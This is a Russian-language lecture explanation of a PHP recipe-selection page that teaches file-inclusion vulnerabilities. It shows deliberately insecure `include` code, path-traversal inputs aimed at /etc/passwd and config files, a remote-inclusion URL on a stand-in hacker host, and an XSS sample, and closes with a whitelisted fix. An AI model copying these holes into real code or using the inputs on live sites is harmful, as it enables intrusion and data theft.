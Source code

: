 ### Объяснение лекции: Проект выбора рецептов с уязвимостями безопасности

#### **1. Обзор проекта**

**Цель проекта:**

- Создать выпадающий список с рецептами
- Отображать фото и инструкцию для выбранного рецепта
- Демонстрация основных уязвимостей безопасности

**Визуализация:**

```mermaid
graph TD
    A[Выпадающий список] --> B[Выбор рецепта]
    B --> C[Показ изображения]
    B --> D[Отображение инструкции]
```

---

#### **2. Реализация формы выбора**

```php
<?php
// Файл: include.php
?>

<form method="GET" action="include.php">
  <select name="page">
    <option value="">Please select a recipe</option>
    <option value="citrus_salmon"
      <?= !empty($_GET['page']) && $_GET['page'] === 'citrus_salmon' ? 'selected' : '' ?>
    >Citrus Salmon</option>

    <option value="mediterranean_pasta"
      <?= !empty($_GET['page']) && $_GET['page'] === 'mediterranean_pasta' ? 'selected' : '' ?>
    >Mediterranean Pasta</option>

    <!-- Остальные варианты -->
  </select>
  <input type="submit" value="Submit">
</form>
```

**Особенности:**

- Используется метод `GET` для передачи параметра `page`
- Автоматическое сохранение выбора через атрибут `selected`
- Форма отправляется на тот же файл (`action="include.php"`)

---

#### **3. Отображение выбранного рецепта (небезопасная версия)**

```php
<?php
if (!empty($_GET['page'])) {
  // Опасное включение файла!
  include 'pages/' . $_GET['page'] . '.php';
}
?>
```

**Проблемы этой реализации:**

1. **Path Traversal уязвимость:**
   ```php
   // Злоумышленник может передать:
   // page=../../../etc/passwd
   ```
2. **Выполнение произвольного PHP-кода**
3. **Неправильное использование `include`**

---

#### **4. Улучшенная версия (но все еще уязвимая)**

```php
<?php
if (!empty($_GET['page'])) {
  // Безопаснее, но все равно проблемы
  $filePath = 'pages/' . $_GET['page'] . '.php';
  echo file_get_contents($filePath);
}
?>
```

**Что изменилось:**

- Используется `file_get_contents()` вместо `include`
- Содержимое файла не выполняется как PHP-код
- Но остаются проблемы безопасности

**Демонстрация проблемы:**

```php
// Если в файле рецепта добавить:
<?php echo rand(1, 100); ?>
// Браузер отобразит как текст:
// "<?php echo rand(1, 100); ?>"
```

---

#### **5. Рекомендуемые изменения для безопасности**

```diff
// Изменить расширение файлов рецептов
citrus_salmon.php → citrus_salmon.html

// Обновить код загрузки
if (!empty($_GET['page'])) {
-  echo file_get_contents('pages/' . $_GET['page'] . '.php');
+  echo file_get_contents('pages/' . $_GET['page'] . '.html');
}
```

**Преимущества:**

- Четкое разделение кода и данных
- Предотвращение случайного выполнения кода
- Явное указание типа содержимого

---

#### **6. Критические уязвимости (для разбора в следующей лекции)**

1. **Path Traversal Attack:**

   ```php
   // Пример опасного запроса:
   // include.php?page=../../config
   ```

2. **Remote File Inclusion (RFI):**

   ```php
   // Если настроено allow_url_include=On
   // include.php?page=http://hacker.com/malicious
   ```

3. **Отсутствие валидации ввода:**

   - Нет проверки допустимых значений
   - Нет "белого списка" рецептов

4. **XSS через содержимое файлов:**
   ```html
   <!-- Если файл содержит: -->
   <script>
     alert("XSS!");
   </script>
   ```

---

### Пример безопасной реализации (предварительный)

```php
<?php
// "Белый список" допустимых рецептов
$allowedPages = [
    'citrus_salmon',
    'mediterranean_pasta',
    'vegetable_risotto',
    'spicy_tacos'
];

if (!empty($_GET['page']) && in_array($_GET['page'], $allowedPages)) {
    $filePath = 'pages/' . $_GET['page'] . '.html';

    if (file_exists($filePath)) {
        // Чтение и экранирование содержимого
        $content = file_get_contents($filePath);
        echo htmlspecialchars($content, ENT_QUOTES, 'UTF-8');
    }
}
?>
```

### Ключевые выводы

1. **Всегда проверяйте пользовательский ввод:**

   - Используйте "белые списки" вместо "черных списков"

   ```php
   // ❌ Плохо
   if ($_GET['page'] !== 'hack') {...}

   // ✅ Хорошо
   $allowed = ['safe1', 'safe2'];
   if (in_array($_GET['page'], $allowed)) {...}
   ```

2. **Избегайте прямого включения файлов:**

   - Никогда не используйте `include`/`require` с пользовательскими данными

3. **Разделяйте код и данные:**

   - Храните пользовательский контент в отдельных файлах с расширением `.html` или `.txt`

4. **Экранируйте вывод:**
   - Всегда обрабатывайте содержимое через `htmlspecialchars()`

> 🔒 **Важное предупреждение**  
> Представленная в лекции реализация содержит критические уязвимости.  
> В следующей лекции автор подробно разберет эксплойты и методы защиты.
